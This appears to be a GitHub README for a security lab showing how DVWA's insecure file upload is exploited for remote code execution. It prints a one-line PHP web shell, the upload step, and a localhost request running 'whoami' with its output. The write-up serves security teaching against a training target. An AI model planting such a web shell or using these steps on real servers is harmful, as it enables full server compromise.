


# 💀 DVWA File Upload → Remote Code Execution Lab

## 📌 Overview
This lab demonstrates how an insecure file upload vulnerability can be exploited to achieve **remote command execution (RCE)** on a target server.

---

## 🛠️ Environment
- Kali Linux (UTM)
- Apache Web Server
- PHP
- DVWA (Damn Vulnerable Web App)

---

## ⚔️ Exploitation Steps

### 1. Access File Upload Page
Navigate to DVWA → File Upload.

---

### 2. Create Malicious PHP Web Shell

```php
<?php system($_GET['cmd']); ?>
```

---

### 3. Upload Web Shell
Upload `shell.php` using DVWA upload form.

---

### 4. Execute Commands

Access:
```
http://localhost/dvwa/hackable/uploads/shell.php?cmd=whoami
```

---

## 🎯 Result

```
www-data
```

This confirms:
✔ Remote Code Execution  
✔ Server command execution  
✔ Successful exploitation  

---

## 📸 Proof of Exploitation

### Upload Page


---

### Upload Success


---

### Command Execution


---

## 💥 Impact

This vulnerability allows attackers to:
- Execute system commands
- Gain remote shell access
- Fully compromise the server

---

## 🧠 Key Concepts

- File upload vulnerabilities
- Web shells
- Remote Code Execution (RCE)
- Post-exploitation

---

## ⚠️ Disclaimer
For educational use only in controlled environments.

---

## 👨‍💻 Author
Lewis
